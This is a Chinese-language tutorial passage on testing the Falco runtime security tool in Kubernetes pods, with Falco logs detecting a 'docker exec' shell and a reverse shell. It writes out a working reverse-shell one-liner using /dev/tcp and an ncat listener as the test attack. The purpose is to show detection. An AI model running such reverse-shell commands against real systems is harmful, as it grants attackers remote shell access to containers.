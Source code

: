 ### Shell 启动检测

在机器 18.161 上安装完成后启动，并通过登录到本机的 Pod 实例中测试：

```bash
$sudo falco
Mon Mar  1 11:03:12 2021: Falco version 0.27.0 (driver version 5c0b863ddade7a45568c0ac97d037422c9efb750)
Mon Mar  1 11:03:12 2021: Falco initialized with configuration file /etc/falco/falco.yaml
Mon Mar  1 11:03:12 2021: Loading rules from file /etc/falco/falco_rules.yaml:
Mon Mar  1 11:03:12 2021: Loading rules from file /etc/falco/falco_rules.local.yaml:
Mon Mar  1 11:03:12 2021: Loading rules from file /etc/falco/k8s_audit_rules.yaml:
Mon Mar  1 11:03:13 2021: Starting internal webserver, listening on port 8765

# 在另外一个窗口执行 
# docker exec -ti e6a37f5f7c33  /bin/bash -il
# falco 日志中打印以下内容：
11:04:50.016293434: Notice A shell was spawned in a container with an attached terminal (user=root user_loginuid=-1 k8s_df-nginx_dfagent-67h29_cr-dfagent_1361ce52-4664-11eb-9fdb-00163e120ca5_1 (id=e6a37f5f7c33) shell=bash parent=runc cmdline=bash -il terminal=34816 container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx)


$sudo docker exec -ti e6a37f5f7c33  /bin/bash -il
```



### Shell 反弹测试

在另外一台机器 172.16.132.147 上启动

```bash
  $ ncat -l -p 10000
  # 在 shell 反弹成功后可以拿到 Pod 的 shell 权限，界面如下：
  root@backend-05:/#
```



在上个样例中我们登录的 Pod 中执行一下命令，那么在 147 机器的命令行中就会得到该 Pod 的 shell 权限：

```bash
root@backend-05:/# bash -i >& /dev/tcp/172.16.132.147/10000 0>&1
```

对于这种行为 falco 可以进行检测和发现：

```bash
11:16:41.458470109: Notice Known system binary sent/received network traffic (user=root user_loginuid=-1 command=bash connection=172.16.18.161:58426->172.16.132.147:10000 
container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx)

11:16:41.458523964: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s_df-nginx_dfagent-67h29_cr-dfagent_1361ce52-4664-11eb-9fdb-00163e120ca5_1 (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx fd.name=172.16.18.161:58426->172.16.132.147:10000 fd.num=1 fd.type=ipv4 fd.sip=172.16.132.147)

11:16:41.458525412: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s_df-nginx_dfagent-67h29_cr-dfagent_1361ce52-4664-11eb-9fdb-00163e120ca5_1 (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx fd.name=172.16.18.161:58426->172.16.132.147:10000 fd.num=1 fd.type=ipv4 fd.sip=172.16.132.147)
```
